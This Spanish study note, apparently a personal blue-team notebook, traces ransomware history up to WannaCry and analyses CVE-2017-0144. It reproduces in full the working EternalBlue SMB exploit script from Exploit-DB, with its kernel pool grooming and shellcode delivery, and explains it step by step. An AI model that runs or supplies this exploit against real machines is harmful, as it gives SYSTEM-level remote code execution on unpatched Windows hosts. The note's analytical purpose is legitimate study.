---
tags:
  - "#formato/documentacion"
  - "#gestion/duracion/largo"
  - "#gestion/relevancia/muy-alta"
  - "#gestion/dificultad/dificil"
  - "#entorno/os/windows"
  - "#tecnologia/servicio/smb"
  - "#entorno/infra/virtual-machine"
  - "#gestion/estado/terminado"
  - hacking/blue-team
---
El ecosistema del hacking y el desarrollo de malware evoluciona constantemente; cada época define y populariza distintas metodologías para desplegar y rentabilizar código malicioso dentro de un sistema. En el caso de **WannaCry**, su aparición en 2017 no fue un evento aislado, sino la evolución culmen de conceptos que se venían gestando desde décadas atrás.

## 🧬 El Primer Hito: PC Cyborg Trojan / AIDS (1989)

Aunque el ransomware parece una amenaza moderna, sus cimientos teóricos y prácticos se remontan a **1989**. El primer espécimen de la historia fue creado por el biólogo **Joseph L. Popp** y fue bautizado como **PC Cyborg** (también conocido popularmente como el troyano *AIDS*).



En aquella época, el modelo de negocio detrás de este ataque no resultaba altamente rentable debido a las severas limitaciones logísticas y técnicas de la era:
* **Distribución Física:** Al no existir un internet global interconectado, el malware se distribuía físicamente mediante **disquetes de 5¼ pulgadas** enviados por correo postal tradicional a listas de distribución de conferencias médicas.
* **Criptografía Rudimentaria:** Utilizaba un esquema de encriptación extremadamente básico (sustitución simétrica simple), lo que permitía a los analistas de seguridad de la época descifrar los archivos y generar herramientas de recuperación con relativa facilidad.

A pesar de sus limitaciones, PC Cyborg estableció de forma permanente las **tres reglas de oro del ransomware** que heredaría WannaCry:
1. Secuestrar y alterar el acceso a los archivos del sistema (cifrado).
2. Modificar la interfaz para mostrar una nota o pantalla de advertencia.
3. Exigir un pago financiero (en ese entonces mediante un giro postal a un apartado de correos en Panamá) a cambio de la clave de restauración.

---

## ⏳ La Era del Silencio y el Resurgimiento: CryptoLocker (2013)

Tras el incidente de 1989, el modelo de secuestro de datos permaneció en un segundo plano operativo durante más de dos décadas debido a la falta de un sistema de cobro anónimo y eficiente. 

Esta dinámica cambió radicalmente en **2013** con la aparición de **CryptoLocker**. Esta variante marcó el inicio de la era moderna del ransomware al resolver los problemas del espécimen de 1989, logrando infectar a más de **250,000 ordenadores** distribuidos en varios países. Lo más sorprendente de CryptoLocker es que no explotaba ninguna vulnerabilidad del sistema operativo; su éxito dependió enteramente de técnicas de ingeniería social mediante campañas de phishing dirigidas para forzar la descarga y ejecución manual del archivo binario malicioso.



El panorama tecnológico de 2013 presentaba avances determinantes que prepararon el camino para el posterior éxito de WannaCry:
1. **Infraestructura Global y Exposición:** Internet ya se encontraba masivamente desplegado a nivel mundial. Sin embargo, la falta de concienciación y cultura en ciberseguridad dejaba a usuarios corporativos y residenciales expuestos a vectores de manipulación.
2. **Madurez Criptográfica (RSA):** Se integraron sistemas de cifrado de alta complejidad. El algoritmo asimétrico **RSA**, diseñado bajo patente en 1983 pero estandarizado comercialmente hacia el año 2000, fue el núcleo que impidió la recuperación de datos sin la clave privada del atacante.
3. **Surgimiento Financiero Criptográfico:** La invención de las criptomonedas en 2009 proporcionó el eslabón perdido para el ransomware. Durante 2013, el ecosistema de **Bitcoin** vivió su primer gran auge comercial, ofreciendo a los atacantes un mecanismo de cobro descentralizado, transfronterizo y de muy difícil rastreo.

---

## 🛑 El Aviso de Vulnerabilidad Crítica antes de WannaCry (16 de Enero de 2017)

A inicios de 2017, apenas unos meses antes del estallido global de WannaCry, el Equipo de Preparación ante Emergencias Informáticas de EE. UU. (**US-CERT**, hoy bajo la órbita de CISA) emitió una alerta crítica de seguridad que registraría formalmente el identificador **CVE-2017-0144**. Esta entrada apuntaba a un fallo estructural severo dentro de la implementación del protocolo **SMB** (*Server Message Block*) de Microsoft, el cual se convertiría en el motor de propulsión de WannaCry.



### 🧐 Anatomía del Protocolo Objetivo: SMB
* **Origen:** Creado originalmente por IBM en 1983, fue adoptado y adaptado de forma nativa por Microsoft para los entornos de red en sistemas Windows.
* **Función Operativa:** SMB es un protocolo de la capa de aplicación encargado de compartir archivos, carpetas, colas de impresión y accesos a dispositivos de hardware dentro de una red local, permitiendo su lectura y modificación remota.
* **Mecánica de Red:** Opera bajo un modelo clásico cliente-servidor mediante el envío de solicitudes de recursos de red y respuestas de validación. De forma nativa, se mapea en redes modernas sobre el puerto **445 (TCP)**, conviviendo históricamente con los puertos **137 y 138 (UDP)** mediante NetBIOS, así como en su contraparte de código abierto **Samba**.

El abuso de este protocolo no era nuevo en el panorama de amenazas. En 2014, la corporación **Sony Pictures** sufrió uno de los ataques dirigidos más devastadores de la historia, donde la manipulación y movimientos laterales a través de redes locales provocaron la destrucción de datos corporativos e infraestructura con pérdidas estimadas entre **100 y 175 millones de dólares**.

### 📋 Especificación Técnica del Reporte CVE-2017-0144
La base de datos oficial del catálogo de vulnerabilidades (**CVE Record**) describe de la siguiente manera la falla que posteriormente explotaría el componente gusano de WannaCry:

> "El servidor SMBv1 en Microsoft Windows Vista SP2; Windows Server 2008 SP2 y R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; Windows 10 Gold, 1511, y 1607; y Windows Server 2016 permite a atacantes remotos ejecutar código arbitrario a través de paquetes especialmente diseñados, también conocida como 'Vulnerabilidad de ejecución remota de código en Windows SMB'. Esta vulnerabilidad es diferente de las descritas en CVE-2017-0143, CVE-2017-0145, CVE-2017-0146, y CVE-2017-0148."

Asociado a esta divulgación, los repositorios de seguridad públicos liberaron recursos técnicos orientados a la verificación de la falla. Para fines de este proyecto de análisis de WannaCry, nos enfocaremos en el estudio y emulación del script de explotación alojado en **Exploit-DB**, diseñado específicamente para auditar la ejecución de código remota sobre arquitecturas **Windows 7** y **Windows Server 2008 R2** que sirvieron como víctimas principales del brote de 2017. Cabe aclarar que el script esta hecho en Python

```
#!/usr/bin/python
from impacket import smb
from struct import pack
import sys
import socket

NTFEA_SIZE = 0x11000

ntfea10000 = pack('<BBH', 0, 0, 0xffdd) + 'A'*0xffde

ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00')*600
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A'*0xf3be

ntfea1f000 = (pack('<BBH', 0, 0, 0) + '\x00')*0x2494
ntfea1f000 += pack('<BBH', 0, 0, 0x48ed) + 'A'*0x48ee

ntfea = { 0x10000 : ntfea10000, 0x11000 : ntfea11000 }

TARGET_HAL_HEAP_ADDR_x64 = 0xffffffffffd00010
TARGET_HAL_HEAP_ADDR_x86 = 0xffdff000

fakeSrvNetBufferNsa = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferNsa += pack('<HHI', 0xffff, 0, 0)*2
fakeSrvNetBufferNsa += '\x00'*16
fakeSrvNetBufferNsa += pack('<IIII', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x20)
fakeSrvNetBufferNsa += pack('<IIHHI', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0x60, 0x1004, 0)
fakeSrvNetBufferNsa += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86-0x80, 0, TARGET_HAL_HEAP_ADDR_x64)
fakeSrvNetBufferNsa += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)
fakeSrvNetBufferNsa += pack('<QHHI', 0, 0x60, 0x1004, 0)
fakeSrvNetBufferNsa += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)

fakeSrvNetBufferX64 = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferX64 += pack('<HHIQ', 0xffff, 0, 0, 0)
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += pack('<IIQ', 0, 0, TARGET_HAL_HEAP_ADDR_x64)
fakeSrvNetBufferX64 += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)
fakeSrvNetBufferX64 += pack('<QHHI', 0, 0x60, 0x1004, 0)
fakeSrvNetBufferX64 += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)

fakeSrvNetBuffer = fakeSrvNetBufferNsa

feaList = pack('<I', 0x10000)
feaList += ntfea[NTFEA_SIZE]
feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer
feaList += pack('<BBH', 0x12, 0x34, 0x5678)

fake_recv_struct = pack('<QII', 0, 3, 0)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<QII', 0, 3, 0)
fake_recv_struct += ('\x00'*16)*7
fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0xa0, TARGET_HAL_HEAP_ADDR_x64+0xa0)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86+0xc0, TARGET_HAL_HEAP_ADDR_x86+0xc0, 0)
fake_recv_struct += ('\x00'*16)*11
fake_recv_struct += pack('<QII', 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x190)
fake_recv_struct += pack('<IIQ', 0, TARGET_HAL_HEAP_ADDR_x86+0x1f0-1, 0)
fake_recv_struct += ('\x00'*16)*3
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1e0)
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1f0-1)

def getNTStatus(self):
    return (self['ErrorCode'] << 16) | (self['_reserved'] << 8) | self['ErrorClass']
setattr(smb.NewSMBPacket, "getNTStatus", getNTStatus)

def sendEcho(conn, tid, data):
    pkt = smb.NewSMBPacket()
    pkt['Tid'] = tid
    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_ECHO)
    transCommand['Parameters'] = smb.SMBEcho_Parameters()
    transCommand['Data'] = smb.SMBEcho_Data()
    transCommand['Parameters']['EchoCount'] = 1
    transCommand['Data']['Data'] = data
    pkt.addCommand(transCommand)
    conn.sendSMB(pkt)
    recvPkt = conn.recvSMB()
    if recvPkt.getNTStatus() == 0:
        print('got good ECHO response')
    else:
        print('got bad ECHO response: 0x{:x}'.format(recvPkt.getNTStatus()))

def createSessionAllocNonPaged(target, size):
    conn = smb.SMB(target, target)
    _, flags2 = conn.get_flags()
    flags2 &= ~smb.SMB.FLAGS2_EXTENDED_SECURITY
    if size >= 0xffff:
        flags2 &= ~smb.SMB.FLAGS2_UNICODE
        reqSize = size // 2
    else:
        flags2 |= smb.SMB.FLAGS2_UNICODE
        reqSize = size
    conn.set_flags(flags2=flags2)
    
    pkt = smb.NewSMBPacket()
    sessionSetup = smb.SMBCommand(smb.SMB.SMB_COM_SESSION_SETUP_ANDX)
    sessionSetup['Parameters'] = smb.SMBSessionSetupAndX_Extended_Parameters()
    sessionSetup['Parameters']['MaxBufferSize'] = 61440
    sessionSetup['Parameters']['MaxMpxCount'] = 2
    sessionSetup['Parameters']['VcNumber'] = 2
    sessionSetup['Parameters']['SessionKey'] = 0
    sessionSetup['Parameters']['SecurityBlobLength'] = 0
    sessionSetup['Parameters']['Capabilities'] = smb.SMB.CAP_EXTENDED_SECURITY
    sessionSetup['Data'] = pack('<H', reqSize) + '\x00'*20
    pkt.addCommand(sessionSetup)
    conn.sendSMB(pkt)
    recvPkt = conn.recvSMB()
    if recvPkt.getNTStatus() == 0:
        print('SMB1 session setup allocate nonpaged pool success')
    else:
        print('SMB1 session setup allocate nonpaged pool failed')
    return conn

class SMBTransaction2Secondary_Parameters_Fixed(smb.SMBCommand_Parameters):
    structure = (
        ('TotalParameterCount','<H=0'),
        ('TotalDataCount','<H'),
        ('ParameterCount','<H=0'),
        ('ParameterOffset','<H=0'),
        ('ParameterDisplacement','<H=0'),
        ('DataCount','<H'),
        ('DataOffset','<H'),
        ('DataDisplacement','<H=0'),
        ('FID','<H=0'),
    )

def send_trans2_second(conn, tid, data, displacement):
    pkt = smb.NewSMBPacket()
    pkt['Tid'] = tid
    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2_SECONDARY)
    transCommand['Parameters'] = SMBTransaction2Secondary_Parameters_Fixed()
    transCommand['Data'] = smb.SMBTransaction2Secondary_Data()
    transCommand['Parameters']['TotalParameterCount'] = 0
    transCommand['Parameters']['TotalDataCount'] = len(data)
    fixedOffset = 32+3+18
    transCommand['Data']['Pad1'] = ''
    transCommand['Parameters']['ParameterCount'] = 0
    transCommand['Parameters']['ParameterOffset'] = 0
    if len(data) > 0:
        pad2Len = (4 - fixedOffset % 4) % 4
        transCommand['Data']['Pad2'] = '\xFF' * pad2Len
    else:
        transCommand['Data']['Pad2'] = ''
        pad2Len = 0
    transCommand['Parameters']['DataCount'] = len(data)
    transCommand['Parameters']['DataOffset'] = fixedOffset + pad2Len
    transCommand['Parameters']['DataDisplacement'] = displacement
    transCommand['Data']['Trans_Parameters'] = ''
    transCommand['Data']['Trans_Data'] = data
    pkt.addCommand(transCommand)
    conn.sendSMB(pkt)

def send_big_trans2(conn, tid, setup, data, param, firstDataFragmentSize, sendLastChunk=True):
    pkt = smb.NewSMBPacket()
    pkt['Tid'] = tid
    command = pack('<H', setup)
    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
    transCommand['Parameters'] = smb.SMBNTTransaction_Parameters()
    transCommand['Parameters']['MaxSetupCount'] = 1
    transCommand['Parameters']['MaxParameterCount'] = len(param)
    transCommand['Parameters']['MaxDataCount'] = 0
    transCommand['Data'] = smb.SMBTransaction2_Data()
    transCommand['Parameters']['Setup'] = command
    transCommand['Parameters']['TotalParameterCount'] = len(param)
    transCommand['Parameters']['TotalDataCount'] = len(data)
    fixedOffset = 32+3+38 + len(command)
    if len(param) > 0:
        padLen = (4 - fixedOffset % 4 ) % 4
        padBytes = '\xFF' * padLen
        transCommand['Data']['Pad1'] = padBytes
    else:
        transCommand['Data']['Pad1'] = ''
        padLen = 0
    transCommand['Parameters']['ParameterCount'] = len(param)
    transCommand['Parameters']['ParameterOffset'] = fixedOffset + padLen
    if len(data) > 0:
        pad2Len = (4 - (fixedOffset + padLen + len(param)) % 4) % 4
        transCommand['Data']['Pad2'] = '\xFF' * pad2Len
    else:
        transCommand['Data']['Pad2'] = ''
        pad2Len = 0
    transCommand['Parameters']['DataCount'] = firstDataFragmentSize
    transCommand['Parameters']['DataOffset'] = transCommand['Parameters']['ParameterOffset'] + len(param) + pad2Len
    transCommand['Data']['Trans_Parameters'] = param
    transCommand['Data']['Trans_Data'] = data[:firstDataFragmentSize]
    pkt.addCommand(transCommand)
    conn.sendSMB(pkt)
    conn.recvSMB()
    i = firstDataFragmentSize
    while i < len(data):
        sendSize = min(4096, len(data) - i)
        if len(data) - i <= 4096:
            if not sendLastChunk:
                break
        send_trans2_second(conn, tid, data[i:i+sendSize], i)
        i += sendSize
    if sendLastChunk:
        conn.recvSMB()
    return i

def createConnectionWithBigSMBFirst80(target):
    sk = socket.create_connection((target, 445))
    pkt = '\x00' + '\x00' + pack('>H', 0xfff7)
    pkt += 'BAAD'
    pkt += '\x00'*0x7c
    sk.send(pkt)
    return sk

def exploit(target, shellcode, numGroomConn):
    conn = smb.SMB(target, target)
    conn.login_standard('', '')
    server_os = conn.get_server_os()
    print('Target OS: '+server_os)
    if not (server_os.startswith("Windows 7 ") or (server_os.startswith("Windows Server ") and ' 2008 ' in server_os) or server_os.startswith("Windows Vista")):
        print('This exploit does not support this target')
        sys.exit()
    
    tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$')
    progress = send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)
    allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)
    srvnetConn = []
    for i in range(numGroomConn):
        sk = createConnectionWithBigSMBFirst80(target)
        srvnetConn.append(sk)
    holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)
    allocConn.get_socket().close()
    for i in range(5):
        sk = createConnectionWithBigSMBFirst80(target)
        srvnetConn.append(sk)
    holeConn.get_socket().close()
    send_trans2_second(conn, tid, feaList[progress:], progress)
    recvPkt = conn.recvSMB()
    retStatus = recvPkt.getNTStatus()
    if retStatus == 0xc000000d:
        print('good response status: INVALID_PARAMETER')
    else:
        print('bad response status: 0x{:08x}'.format(retStatus))
    for sk in srvnetConn:
        sk.send(fake_recv_struct + shellcode)
    for sk in srvnetConn:
        sk.close()
    conn.disconnect_tree(tid)
    conn.logoff()
    conn.get_socket().close()

if len(sys.argv) < 3:
    print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
    sys.exit(1)

TARGET=sys.argv[1]
numGroomConn = 13 if len(sys.argv) < 4 else int(sys.argv[3])

fp = open(sys.argv[2], 'rb')
sc = fp.read()
fp.close()

print('shellcode size: {:d}'.format(len(sc)))
print('numGroomConn: {:d}'.format(numGroomConn))

exploit(TARGET, sc, numGroomConn)
print('done')
```

### 🛠️ Análisis Técnico del Exploit  CVE-2017-0144

Para entender cómo WannaCry logra la ejecución remota de código (RCE) con privilegios de SYSTEM sin interacción del usuario, es imperativo diseccionar el script de explotación de **EternalBlue** (alojado en Exploit-DB). A continuación, se descompone la lógica de sus componentes, la manipulación de la memoria del kernel y la orquestación del ataque.

---

#### 📦 1. Importación de Módulos y Dependencias

El script comienza importando las librerías necesarias para la manipulación de red a bajo nivel y la estructuración binaria de los paquetes:

* `from impacket import smb`: Módulo crítico encargado de la construcción, parsing y envío de estructuras válidas del protocolo **SMB** (*Server Message Block*).
* `from struct import pack`: Función fundamental para serializar y convertir tipos de datos de Python en cadenas de bytes binarias legibles por la arquitectura del procesador (utilizando formato *Little-Endian* `<`).
* `import sys`: Permite la interacción con el intérprete y la captura de argumentos desde la línea de comandos (como la IP del objetivo).
* `import socket`: Utilizado para inicializar y gestionar conexiones TCP puras directamente orientadas al puerto **445**.

---

#### 🕳️ 2. El Desbordamiento de Búfer: Estructuración del Payload FEA

El exploit define un tamaño de búfer específico: $NTFEA\_SIZE = 0x11000$ (**69,632 bytes**). La vulnerabilidad se detona porque el pool de memoria del kernel espera una longitud acotada, pero la confusión de tipos le obliga a recibir una estructura mucho más grande, provocando una escritura fuera de los límites asignados (*Heap Buffer Overflow*).

El payload de desbordamiento se construye de la siguiente manera:

```python
# 1. Creación de estructuras base vacías
ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00') * 600
```

> ⚙️ **Mecánica:** Genera un bloque repetitivo de 600 estructuras FEA (_Full Extended Attribute_) vacías. Cada una de ellas ocupa exactamente 4 bytes en memoria, sumando un total inicial de **2,400 bytes** ($0x960$).

```python
# 2. Inyección del tamaño malformado para el desbordamiento
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A' * 0xf3be
```

> ⚙️ **Mecánica:** Se concatena una estructura FEA final declarando un tamaño ficticio de $0xf3bd$ (**62,461 bytes**) y se rellena inmediatamente con un padding masivo de caracteres `'A' * 0xf3be` (**62,462 bytes**).
> 
> Al configurar ambas operaciones ($2400 + 62462 = 64862 \text{ bytes}$), se moldea un paquete diseñado matemáticamente para saturar los límites internos del búfer del driver `srv.sys` y desbordar la memoria adyacente del kernel.

#### 🎭 3. Estructuras Falsas (_Fake Structs_) e Inyección en el HAL

Una vez provocado el desbordamiento, el exploit no busca crashear el sistema, sino sobrescribir punteros de memoria legítimos por **estructuras falsas** (_Fake Structs_) que apunten a la capa de abstracción de hardware (**HAL**), una región de memoria con direcciones estáticas y predecibles en sistemas Windows que no implementaban de forma estricta mitigaciones de seguridad como KASLR en versiones antiguas.

```python
# Direcciones estáticas del HAL (Hardware Abstraction Layer)
TARGET_HAL_HEAP_ADDR_x64 = 0xffffffffffd00010    # Dirección HAL en x64
TARGET_HAL_HEAP_ADDR_x86 = 0xffdff000            # Dirección HAL en x86
```

##### A. Moldeando un `SRVNET_BUFFER` Falso

El exploit crea una réplica maliciosa de la estructura que el driver de red utiliza para gestionar los datos entrantes:

```python
fakeSrvNetBufferNsa = pack('<II', 0x11000, 0) * 2
fakeSrvNetBufferNsa += pack('<HHI', 0xffff, 0, 0) * 2 # 0xffff activa la bandera de liberación (Free Flag)
fakeSrvNetBufferNsa += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86-0x80, 0, TARGET_HAL_HEAP_ADDR_x64)
```

- **`0xffff`:** Actúa como una bandera (_Free Flag_) que le indica fraudulentamente al kernel que este búfer ya debe ser liberado de la memoria.
    
- **`MappedSystemVa`:** Se sobrescribe para que apunte a la zona de escritura del HAL (`HAL - 0x80`).
    
- **`pSrvNetWskStruct`:** Puntero redirigido hacia la estructura falsa en arquitecturas de 64 bits.
    

##### B. Estructura de Recepción Falsa (`fake_recv_struct`)

Este bloque manipula los punteros de ejecución de funciones del sistema:

```python
fake_recv_struct = pack('<QII', 0, 3, 0) # El valor '3' fuerza el procesamiento inmediato por el kernel
fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x1e0) # Puntero a tabla de funciones en HAL
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1f0-1) # Puntero al shellcode (menos 1 byte)
```

> 💥 **Impacto:** El valor **3** obliga al kernel a procesar la estructura de manera prioritaria. Al hacerlo, el sistema consulta el puntero modificado que apunta a la dirección del shellcode (restando 1 byte debido a que el kernel incrementa la dirección en una unidad antes de saltar a ella). Cuando el hilo del kernel ejecuta la llamada, procesa el shellcode del atacante con privilegios de **Ring 0**.

#### 🧪 4. Confusión de Memoria en el _NonPaged Pool_

 Para lograr colocar estas estructuras en el lugar exacto de la memoria, el exploit implementa dos técnicas avanzadas de manipulación de bajo nivel:

##### A. Reserva del Búfer mediante Confusión de Flags
```python
def createSessionAllocNonPaged(target, size):
    flags2 &= ~smb.SMB.FLAGS2_EXTENDED_SECURITY
    sessionSetup['Data'] = pack('<H', reqSize) + '\x00'*20
```

> 🐞 **El Bug:** Al desactivar de manera forzada la bandera `FLAGS2_EXTENDED_SECURITY`, el exploit confunde al parser del driver de Windows. El kernel interpreta `reqSize` como la longitud asignada a las cadenas de texto `NativeOS` y `NativeLanMan`, pero debido a la desalineación provocada por la falta de seguridad extendida, reserva un búfer de tamaño `reqSize` directamente en el **NonPaged Pool** (la zona de memoria del kernel que nunca se descarga al disco duro).

##### B. Confusión de Transacciones SMB
```python
def send_big_trans2(conn, tid, setup, data, param, firstDataFragmentSize, sendLastChunk=True):
    transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
    # ... fragmentación ...
    send_trans2_second(conn, tid, data[i:i+sendSize], i)
```

> 🔀 **Mecánica:** El exploit mezcla comandos de diferentes naturalezas. Primero inicializa la petición usando **`NT_TRANSACT`**, un comando diseñado para transferir volúmenes de datos superiores a 65,535 bytes. Sin embargo, para enviar los fragmentos posteriores y el cierre del paquete, conmuta al uso de **`TRANSACTION2_SECONDARY`**. Debido a que el driver de Windows no valida de forma estricta que todos los subpaquetes mantengan el mismo tipo de comando original, se guía por las instrucciones del último fragmento recibido, rompiendo la coherencia lógica de la transacción en el backend.

#### 🪐 5. La Orquestación: Grooming del NonPaged Pool

La función principal `exploit(target, shellcode, numGroomConn)` se encarga de alinear la memoria del servidor de manera perfecta para asegurar que el desbordamiento sobrescriba los datos deseados y no cause una pantalla azul (BSOD):

```python
# 1. Autenticación e inicialización del canal común
conn = smb.SMB(target, target)
conn.login_standard('', '') # Conexión anónima (Null Session)
tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$') # Conexión al recurso compartido IPC$
```

##### El Proceso del "Grooming" de Memoria:

1. **Envío Fragmentado:** Se invoca `send_big_trans2` para transmitir el primer fragmento de la lista FEA (2,000 bytes), **pero intencionalmente no se envía el último fragmento**. El kernel de Windows congela la operación, reserva el búfer y se queda en estado de espera.
    
2. **Alineación de Memoria (Moldeado):** Se crean múltiples conexiones consecutivas (`srvnetConn`) que asignan búfers grandes de tipo `SRVNET` en la memoria del kernel.
    
3. **Creación del Hueco (_The Hole_):** Se invoca `createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)` para reservar un búfer del mismo tamaño que la lista FEA final, rodeado inmediatamente por los búfers `SRVNET` previamente creados.
    
4. **Liberación Estratégica:** Se cierran las conexiones temporales (`allocConn.close()` y `holeConn.close()`). Esto libera exactamente el espacio del "hueco", dejando una vacante en la memoria rodeada de búfers del driver de red activos.
    
5. **Detonación del Desbordamiento:** Se envía el fragmento final faltante mediante `send_trans2_second`. El kernel asigna la lista FEA entrante en el "hueco" recién liberado. Al procesarse, el payload se desborda horizontalmente, sobrescribiendo el búfer `SRVNET` que se encuentra inmediatamente al lado.

```python
# 6. Ejecución del Shellcode
for sk in srvnetConn:
    sk.send(fake_recv_struct + shellcode)
for sk in srvnetConn:
    sk.close()
```

Al enviar la estructura de recepción falsa junto con el shellcode y posteriormente cerrar en masa todas las conexiones, se fuerza al sistema operativo a realizar la limpieza de los búfers corruptos. El kernel ejecuta la tabla de funciones alterada, redirigiendo el flujo del procesador directamente hacia nuestro payload malicioso en memoria con privilegios de SYSTEM.

#### 📊 FLUJO RESUMIDO

1. Conexión SMB a target:445
2. Login anónimo
3. Conectar a IPC$
4. Enviar primer fragmento FEA (sin terminar)
   → El kernel reserva un buffer en NonPaged Pool
5. Crear "huecos" en la memoria:
   ├── allocateConn (buffer grande)
   ├── 13 buffers SRVNET (conexiones)
   └── holeConn (buffer "hueco")
6. Liberar allocateConn y holeConn
   → El buffer FEA se asigna en holeConn
7. Enviar último fragmento FEA
   → Buffer FEA se desborda
   → Sobrescribe buffer SRVNET adyacente
8. Enviar fake_recv_struct + shellcode
9. Cerrar conexiones SRVNET
   → Kernel procesa buffer corrompido
   → Sigue puntero a fake_recv_struct
   → Ejecuta shellcode en kernel (ring 0)
10. ¡Sistema comprometido!

---
## 🧬 La Primera Versión Primitiva de WannaCry (WannaCry 1.0)

El 10 de febrero de 2017 la investigadora de malware conocida bajo el alias de **Siri** (@malware_siri) localizó y aisló una de las piezas arqueológicas más importantes en la evolución del ransomware moderno: la muestra primigenia de **WannaCry** (frecuentemente catalogada en repositorios como *WannaCry 1.0* o *WanaCrypt0r* primitiva). 

El hash MD5 que identifica unívocamente este binario es:
`9c7c7149387a1c79679a87dd1ba755bc`

